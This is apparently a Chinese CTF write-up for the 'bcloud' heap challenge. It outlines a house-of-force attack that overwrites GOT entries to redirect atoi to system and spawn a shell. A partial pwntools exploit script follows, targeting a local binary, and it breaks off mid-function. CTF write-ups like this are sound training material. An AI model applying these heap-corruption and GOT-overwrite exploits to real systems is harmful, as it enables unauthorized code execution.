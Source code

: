 1. 利用初始化名字处的漏洞泄漏堆的基地址。。
2. 利用 house of force 将 top chunk 分配至全局的 0x0804B0A0 的 &notesize-8 处，当再次申请内存时，便返回notesize地址处的内存，从而我们就可以控制所有note的大小以及对应的地址了。
3. 修改前三个 note 的大小为16，并修改其指针为 free@got，atoi@got，atoi@got
4. 将 free@got 修改为 puts@plt。
5. 泄漏 atoi 地址。
6. 再次修改另外一个 atoi got 项为 system 地址，从而拿到shell。

具体脚本如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./bcloud"
bcloud = ELF("./bcloud")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./bcloud")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def exp():
    # leak heap base
    p.sendafter('Input your name:\n', 'a' * 64)
    p.recvuntil('Hey ' + 'a' * 64)
    # sub name's chunk' s header
    heap_base = u32(p.recv(4)) - 8
    log.success('heap_base: ' + hex(heap_base))
    p.sendafter('Org:\n', 'a' * 64)
    p.sendlineafter('Host:\n', p32(0xffffffff))
    # name,org,host, for each is (0x40+8)
    topchunk_addr = heap_base + (0x40 + 8) * 3

    # make topchunk point to 0x0804B0A0-8
    p.sendlineafter('option--->>', '1')
    notesize_addr = 0x0804B0A0
    notelist_addr = 0x0804B120
    targetaddr = notesize_addr - 8
    offset_target_top = targetaddr - topchunk_addr
    # 4 for size_t, 7 for malloc_allign
    malloc_size = offset_target_top - 4 - 7
    # plus 4 because malloc(v2 + 4);
    p.sendlineafter('Input the length of the note content:\n',
                    str(malloc_size - 4))
    # most likely malloc_size-4<0...
    if malloc_size - 4 > 0:
        p.sendlineafter('Input the content:\n', '')

    #gdb.attach(p)
    # set notesize[0] = notesize[1] = notesize[2]=16
```